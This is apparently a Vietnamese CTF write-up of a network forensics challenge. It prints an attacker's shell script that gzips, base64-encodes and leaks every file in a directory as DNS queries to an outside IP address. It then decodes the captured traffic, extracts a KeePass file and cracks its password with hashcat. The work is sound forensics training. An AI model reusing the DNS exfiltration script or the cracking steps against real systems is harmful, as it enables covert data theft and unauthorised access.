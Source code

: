 ***NetLab2: Protected Vault***

![image](https://github.com/user-attachments/assets/e04bf9e3-3b83-41ba-8b4a-e58bca68697d)

Nhìn trong file khi dung Export Oject ta được ```update.sh``` như sau:

```python
for f in $(ls .); 
do s=4;b=50;c=0; 
for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");
do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-.";
 c=$(($c+1)); 
 else echo -ne "\n$i-."; 
 c=1;
  fi; 
  done ); 
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; 
 done ; 
 done
```

dịch đoạn code sau ta có vài điểm lưu ý:

```python
 else echo -ne "\n$i-.";
```
Đây là thay thế xuống dòng bằng ```i-```

```python
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short;
```

Thay thế ```+``` bằng ```}```, ```/``` bằng ```{```.
Lưu ý 2 điểm này nó sẽ quan trọng trong bài toán sau.
>
Filter dns thấy được 1 luồn file như base64, chúng ta sẽ tách ra hết để decode xem thử.

```python
tshark -nr netlab2.pcap -Y "dns" -T fields -e dns.qry.name > dns.txt
```

Có vẻ này là file đã decode từ đoạn code kia và vì tác giả bài wu đã thử base64 rất nhiều lần :))). Nên giờ sẽ sửa lại như 2 điều ở trên đã nói bằng đoạn python sau.

```python
# Đọc nội dung từ tệp input
with open('dns.txt', 'r', encoding='utf-8') as file:
    content = file.readlines()

# Xử lý nội dung
processed_lines = []
for line in content:
    # Giải mã chuỗi hex
    try:
        decoded_line = bytes.fromhex(line.strip()).decode('utf-8')
        
        # Thay thế '-.' bằng ký tự xuống dòng
        decoded_line = decoded_line.replace('-.', '\n')
        
        # Thay thế '}' bằng '+'
        decoded_line = decoded_line.replace('}', '+')
        
        # Thay thế '{' bằng '/'
        decoded_line = decoded_line.replace('{', '/')
        
        # Nếu dòng không chứa "ubuntu", thêm vào danh sách
        if 'ubuntu' not in decoded_line:
            processed_lines.append(decoded_line)
    except Exception as e:
        print(f"Không thể giải mã dòng: {line.strip()} - Lỗi: {e}")

# Ghi kết quả vào tệp output
with open('t2.txt', 'w', encoding='utf-8') as file:
    file.writelines(processed_lines)

print("Quá trình xử lý đã hoàn tất!")

```

Sau khi tách bằng file code sau được file t3.txt nhưng không đẩu đủ chúng ta cần xóa những dòng dư thừa bằng code python sau.

```python
# Các chuỗi cần xóa
strings_to_remove = [
    "7bgTtW3Fp59pgy", "2PmGj7XTSNwg5", "2NHJWYG1EYAkZ",
    "2x9kyYFcUyDeC2c65", "4xUi2j75eJtNc1", "2tuJoHGout6YhgSX3",
    "9CUmw2dKFRrmvfhiEM"
]

# Đọc nội dung từ tệp input
with open('t2.txt', 'r', encoding='utf-8') as file:
    lines = file.readlines()

# Lọc các dòng không chứa các chuỗi cần xóa
filtered_lines = [
    line for line in lines if not any(substring in line for substring in strings_to_remove)
]

# Ghi kết quả vào tệp output
with open('gob', 'w', encoding='utf-8') as file:
    file.writelines(filtered_lines)

print("Quá trình xử lý đã hoàn tất!")
```

Sau đó chúng ta decode base64 treeb cyberchef đem đi binwalk.

sau z chúng ta binwalk được file nén sau được con đường hy vọng.

```python
╭─   nart   ~/Solve                                                                          ✔  03:10:54 AM  ─╮
╰─❯ binwalk -e pls.zip                                                                                               ─╯

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, has original file name: "blueteam.bmp", from Unix, last modified: 2022-04-08 06:35:19
27707         0x6C3B          gzip compressed data, has original file name: "discord.png", from Unix, last modified: 2022-09-25 06:48:33
27734         0x6C56          PNG image, 256 x 256, 8-bit colormap, non-interlaced
29086         0x719E          gzip compressed data, has original file name: "Flag.kdbx", from Unix, last modified: 2022-10-24 06:24:10
31373         0x7A8D          gzip compressed data, has original file name: "gaixinh.jpg", from Unix, last modified: 2022-07-19 18:20:33
40164         0x9CE4          gzip compressed data, has original file name: "kcsc.png", from Unix, last modified: 2022-09-25 06:48:33
53705         0xD1C9          gzip compressed data, has original file name: "meme.jpg", from Unix, last modified: 2022-09-25 06:48:33
69258         0x10E8A         gzip compressed data, has original file name: "update.sh", from Unix, last modified: 2022-10-24 06:59:42
```
thấy được đích r

![image](https://github.com/user-attachments/assets/0d331f03-b9cd-467e-a04c-1df059a2332f)

Sau khi mò thì thấy file Flag.kdbx hợp lý nhất nên sẽ tấn công nó.

Có vẻ như file ```.kdbx``` là file nén đặc biệt nên cần tải công cụ đặc biệt để mở nó.

![image](https://github.com/user-attachments/assets/d1a72f03-8115-4ce9-a217-6e85f72bfb49)

Không chỉ là đặc biệt mà còn cần key.

Chúng ta sẽ hash nó ra và get key bằng hashcat vì không thể kiếm thấy key trong file.

![image](https://github.com/user-attachments/assets/5deafc64-f33f-4076-bee6-33a37c0ccb00)

tôi lưu vào file ```pass```. Và chạy chay tìm pass.

```python
╭─   nart   ~/Solve/_pls.zip.extracted                                            ✔  1m 14s   12:37:02 PM  ─╮
╰─❯ hashcat -m 13400 -a 0 hash Wiki10k.txt                                                                           ─╯
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i5-12500H, 2848/5760 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache built:
* Filename..: Wiki10k.txt
* Passwords.: 10000
* Bytes.....: 76508
* Keyspace..: 10000
* Runtime...: 0 secs

$keepass$*2*60000*0*54b674142f9a18aaed00cf79a0bfc32ba37b843b48123f453a83c2c81ca44ffe*24dfb9b36f51c496db792487fa2368078a41f51f0b84ffe57e427e6efe6d987f*b9772351efb550cb41d4d41c0ae6022c*0904ea8a12808b2a8e15385b6891f97e92bf35241f1e21598dec77ef1eae8347*1c22d2dc121964a9c2f89891eea06739c66631f083b09045989ea6bde85f3f8a:iloveyou

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass 1 (AES/Twofish) and KeePass 2 (AES))
Hash.Target......: $keepass$*2*60000*0*54b674142f9a18aaed00cf79a0bfc32...5f3f8a
Time.Started.....: Tue Nov  5 12:41:04 2024 (2 secs)
Time.Estimated...: Tue Nov  5 12:41:06 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Wiki10k.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      230 H/s (4.41ms) @ Accel:32 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/10000 (5.12%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/10000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:59904-60000
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> guinness

Started: Tue Nov  5 12:40:10 2024
Stopped: Tue Nov  5 12:41:08 2024
```
pass nhận được là ```iloveyou```

giờ nhập vào và getkey thôi.

![image](https://github.com/user-attachments/assets/7bb70ad8-7d0f-42e0-a16a-83366e75518b)

flag : ```Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy}```



